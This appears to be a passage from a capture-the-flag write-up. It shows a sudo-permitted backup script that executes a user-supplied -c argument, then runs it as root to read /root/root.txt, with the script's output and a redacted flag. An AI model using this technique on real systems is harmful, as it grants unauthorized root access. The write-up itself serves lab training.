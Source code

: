 ```bash
echo "Backup finished"

cmd=$($command)
echo $cmd

```

One interesting thing that instantly pops up is the last two lines. It runs whatever is in $command and puts the output in $cmd. The output is printed when done. 

The content in $command comes from a command line argument -c so basically we can run any command as root with this. We could execute bash but as all output is collected into $cmd we can just as well just go streight for the root.txt flag.

```
$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
flag{T---------------------------------d} (redacted)
```
